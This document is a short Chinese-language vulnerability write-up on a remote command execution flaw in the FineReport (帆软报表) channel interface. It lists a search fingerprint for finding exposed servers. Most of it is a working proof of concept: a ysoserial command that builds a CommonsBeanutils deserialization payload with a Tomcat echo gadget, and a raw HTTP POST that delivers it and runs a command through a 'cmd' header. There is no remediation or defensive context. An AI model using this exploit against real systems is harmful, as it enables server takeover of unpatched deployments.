

# 帆软报表 channel 远程命令执行漏洞

## 漏洞描述

帆软报表 channel 接口存在远程命令执行漏洞, 攻击者通过漏洞可以获取服务器权限，攻击服务器

## 漏洞影响

帆软报表

## 网络测绘

```
"Powered by 帆软"
```

## 漏洞复现

登陆页面


验证POC

```
java -jar ysoserial-1.5-su18-all.jar -g CommonsBeanutils1183NOCC -p 'EX-TomcatEcho' -ch "cmd" > fine10.bin

POST /webroot/decision/remote/design/channel HTTP/1.1
Content-Type: application/json
Host: 
cmd: id
Connection: close

{{gzip(file(fine10.bin))}}
```

